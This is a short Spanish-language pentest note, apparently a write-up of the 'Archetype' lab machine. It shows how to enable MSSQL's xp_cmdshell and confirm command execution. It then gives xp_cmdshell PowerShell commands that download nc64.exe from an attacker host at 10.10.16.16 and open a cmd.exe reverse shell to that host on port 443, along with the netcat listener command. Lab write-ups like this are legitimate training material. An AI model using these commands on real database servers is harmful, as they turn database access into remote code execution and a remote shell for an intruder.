 [[MSSQL]] permite ejecutar comandos del sistema mediante funciones como `xp_cmdshell`.  
Esto permite interactuar con el sistema operativo directamente desde la base de datos.


----
# Como activarlo

[Cheatsheet de comandos mssql](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
Vamos a activar el xp_cmdshell por que por defecto viene desactivado

```mssql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Ahora hacemos la prueba con `xp_cmdshell "whoami"` para ver si da output
![[Archetype12.png]]
Y como podemos ver responde que somos archetype/sql_svc. Asi que ya confirmamos que esta activado el xp_cmdshell



---------


# Un uso que se le puede dar es para mandar una [[Reverse shell]] 
#### Para mandar la [[Reverse shell]] vamos a necesitar de [[Netcat]]

[Link de netcat para 64bits](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) Vamos a levantar un server de [[python3 -m http.server]] desde nuestra maquina, para que por wget lo descargue la maquina victima. Y a posteriori vamos a ponernos en escucha con  [[rlwrap nc -lvnp 443]] para la reverseshell

```shell
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.16/nc64.exe -outfile nc64.exe           / Descargamos el archivo
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.16.16 443"                       / Mandamos la reverseshell
```

![[Archetype14.png]]
![[Archetype13.png]]

[[rlwrap nc -lvnp 443]]  Para estar en escucha

![[Imagenes/Archetype16.png]]